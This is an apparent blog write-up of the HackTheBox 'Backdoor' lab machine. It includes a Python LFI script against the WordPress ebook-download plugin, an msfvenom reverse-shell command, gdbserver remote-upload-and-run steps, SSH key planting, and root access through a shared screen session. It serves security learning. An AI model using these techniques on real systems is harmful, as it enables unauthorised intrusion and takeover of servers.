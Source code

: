 ```yaml
---
title: Backdoor writeup
date: 2022-06-17 14:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [Easy-box]     # TAG names should always be lowercase
img_path: /assets/img/backdoor/
image: # Thumbnail 
  src: Backdoor.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This box includes a unique way of enumerating a machine through an LFI by fuzzing for a specific PID that spawned a service on port 1337. At least I hadn't seen it before trying it. The privesc step however is rather straight forward.

## Foothold
Let's start of with an nmap scan.
```console
# Nmap 7.92 scan initiated Sat Nov 20 14:36:07 2021 as: nmap -sC -sV --open -p- -oA nmap_scans/scan_full 10.129.102.115
Nmap scan report for 10.129.102.115
Host is up (0.071s latency).
Not shown: 62690 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 20 14:36:55 2021 -- 1 IP address (1 host up) scanned in 48.52 seconds
```

Based on the nmap scan we can conclude that it is using Wordpress. Since this is a wordpress site it is usually a good idea to check which plugins are used. this can be done by checking the /wp-content/plugins directory. We quickly learn that a plugin named ebook-download 1.1 is installed. Searching for exploits related to this leads to the following poc on exploit-db:
<https://www.exploit-db.com/exploits/39575>

It's a very simple poc. Basically we can use the ebook-download plugin to download local files from the server granting us LFI.

Before we continue it might be a good idea to learn what service is running on port 1337. I wrote a very simple script 

```python
import requests

target = '/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{}/cmdline'

url = 'http://10.129.107.129'

for i in range(1000):
        r = requests.get(url + target.format(i))
        result = r.text.split("cmdline")[3].split("<script>")[0]
        if result == '':
                continue
        else:
                print(r.text.split("cmdline")[3].split("<script>")[0] + '\n')

```

The script simply automates the process of getting the cmdline which initiated the process associated with the pid in the url. We don't know what pids are found in the /proc folder on the target system, so I just used a for-loop and printed all non-empty results. 

Running this script gives us the following results (among others):
```console
/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

Based on this it seems that there is a gdb server on port 1337

To exploit this we can create a reverse shell by using msfvenom: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -o rev.elf`

we can then connect to the gdb server by using gdb:

```console
gdb
target extended-remote IP:PORT
remote put rev.elf rev.elf
set remote exec-file /home/user/rev.elf
show remote exec-file
run
```

The above commands start by connecting to the GDB server. After this the `rev.elf`{: .filepath} file is sent to the server with the same name. The file is then chosen to be run and then executed. When the file is run we of course get a reverse shell on the target system.

To get a more stable shell we simply use wget to get the id_rsa.pub file from our own system. We then rename this file to authorized_keys on the target system and connect via ssh:

![connecting via ssh](ssh.png)

## Privilege escalation

We start out by finding SUID binaries.
```console
user@Backdoor:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

screen is set as a SUID binary.

```console
ser@Backdoor:~$ ls -laR /var/run/screen
/var/run/screen:
total 0
drwxr-xr-x  4 root utmp  80 Jun 13 14:43 .
drwxr-xr-x 25 root root 760 Jun 13 14:40 ..
drwx------  2 root root  60 Jun 13 14:04 S-root
drwx------  2 user user  40 Jun 13 14:43 S-user
ls: cannot open directory '/var/run/screen/S-root': Permission denied
```
Based on this output there is a screen session running as root. To switch to this session we can use the -x flag:
```console
screen -x root/root
```
and rooted!